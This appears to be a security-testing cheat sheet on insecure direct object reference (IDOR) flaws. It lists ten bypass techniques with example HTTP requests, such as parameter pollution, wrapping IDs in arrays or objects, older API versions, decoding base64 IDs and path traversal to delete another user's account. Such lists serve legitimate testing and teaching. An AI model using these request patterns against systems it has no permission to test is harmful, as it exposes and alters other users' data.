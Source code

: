 # IDOR
## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

## 1. Bypassing Object Level Authorization:
```
Add parameters onto the endpoints for example, if there was
GET /api/v1/getuser                 >>>      GET /api/v1/getuser?id=1234
GET /api_v1/messages --> 401        >>>      GET /api_v1/messages?user_id=victim_uuid --> 200
vs 

```
## 2. HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]

JSON 
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

## 3. Add .json to the endpoint
```
GET /v2/GetData/1234  >>> GET /v2/GetData/1234.json
[...]
```

## 4. Test on outdated API Versions
```
POST /v2/GetData                 POST /v1/GetData
[...]                  >>>>      [...]
id=123                           id=123
```
## 5. Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## 6. Wrap the ID with a JSON object
```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

## 7. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
dmljdGltQG1haWwuY29t => victim@mail.com
```
## 8. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql            --> 401 Unauthorized
GET /graphql.php?query= --> 200 OK
```

## 9. MFLAC (Missing Function Level Access Control)
```
GET /admin/profile --> 401 Unauthorized
GET /ADMIN/profile --> 200 OK
```
## 10. Path Traversal: 
    POST /users/delete/VICTIM_ID --> 403 Forbidden
    POST /users/delete/MY_ID/../VICTIM_ID --> 200 OK 


Source: https://www.notion.so/IDOR-Attack-vectors-exploitation-bypasses-and-chains-0b73eb18e9b640ce8c337af83f397a6b
